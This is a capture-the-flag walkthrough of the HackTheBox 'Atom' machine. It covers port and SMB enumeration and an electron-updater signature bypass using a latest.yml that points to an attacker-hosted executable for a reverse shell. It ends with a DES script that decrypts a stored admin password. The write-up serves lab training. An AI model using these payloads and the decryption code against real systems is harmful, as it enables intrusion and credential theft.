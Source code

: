 # Hackthebox - Atom

FIrst I run Nmap to scan for open ports.
```bash
Nmap scan report for 10.129.171.222
Host is up (0.17s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
135/tcp open  msrpc        Microsoft Windows RPC
443/tcp open  ssl/http     Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: ATOM; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Port 80 which is HTTP is open, so I go to my browser and open the web page.
![](webpage.png)

Port 443 which is HTTPs is also open, but it gives me the same web page. I started gobuster on the HTTP page.
![](gobuster.png)

Gobuster gets a directory called releases and it lists a ZIP file.
![](reelases.png)

I downloaded the zip file and see that it contains an exe file. I am in a linux machine so I decided to leave this first and enumerate other ports first.
![](heedunzip.png)

I use Smbmap to enumerate port 445 which is SMB and got an interesting share called **Software_Updates**.
![](smb.png)

I try listing it and got a pdf file.
![](listingshare.png)

I use Smbclient to download the pdf file to my machine.
![](smbl=clientdonlot.png)

The pdf says that the application is build using electron-builder which has a few exploits, but the pdf says that the application has no server interaction at all which means I can't use those exploits. So I was stuck for quite some time and then I reread the pdf again and got interested in the update mechanism.
![](pdfqa.png)

I started Googling if there is anyway we can exploit the update mechanism which is in the pdf and found an article (https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html). We can create a yml file that will point to our own executable file. So I create an executable file that will download a ps1 file from nishang (https://github.com/samratashok/nishang). I use Invoke-PowershellTcp for my reverse shell ps1 file.
![](msfvenonishang.png)

I create the file called **latest.yml**.
```bash
version: 1.2.3
path: http://10.10.14.49:8000/s'hell.exe
sha512: wJ01rJjmM/Si7sAZyxD9ySOT+pOG8Ms/ER9UIkztMOKn/1aI1plEXOWxp90wNhLDkJt17zTV13V0EaVTqnL1+Q==
```

I upload the yaml file to the client1 folder.
![](uploadyaml.png)

Wait a bit and got a reverse shell with powershell and I can get the user flag.
![](powershell.png)

Next I use winpeas to enumerate the box. There is a directory called PortableKanban which is interesting.
![](winpe.png)

I immediately search about this software and found an exploit (https://www.exploit-db.com/exploits/49409). The problem is the script is in python and python isn't installed on the box. So I take a step back and try to poke around the box myself.

At the beginning, I started Nmap to scan for all ports.
```bash
Nmap scan report for 10.129.171.229
Host is up (0.17s latency).
Not shown: 65529 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
443/tcp  open  https
445/tcp  open  microsoft-ds
5985/tcp open  wsman
6379/tcp open  redis
```
There is redis on the box, so I find it's configuration file and got a password.
![](redispass.png)

I connect to the server using redis-cli, and dump all the keys available.
![](keysredis.png)

When getting one of the key, it gives me an encrypted password.
![](enpass.png)

I can't identify what kind of encryption this is, but the exploit from PortableKanban says that it can decrypt passwords from the the PortableKanban.pk3 file. So I just take a wild guess and try to decrypt it using the exploit script.

I modify the script to just decrypt the encrypted password from redis.
```bash
import json
import base64
from des import * #python3 -m pip install des
import sys

def decode(hash):
        hash = base64.b64decode(hash.encode('utf-8'))
        key = DesKey(b"7ly6UznJ")
        return key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8')

print("{}".format(decode("Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi")))
```

Running the script and it gives me a password.
![](pythonexploit.png)

If you look back at the Nmap result, it says that Windows Remote Protocol is open. I use this password and evil-winrm to login to the box as Administrator.
![](rooted.png)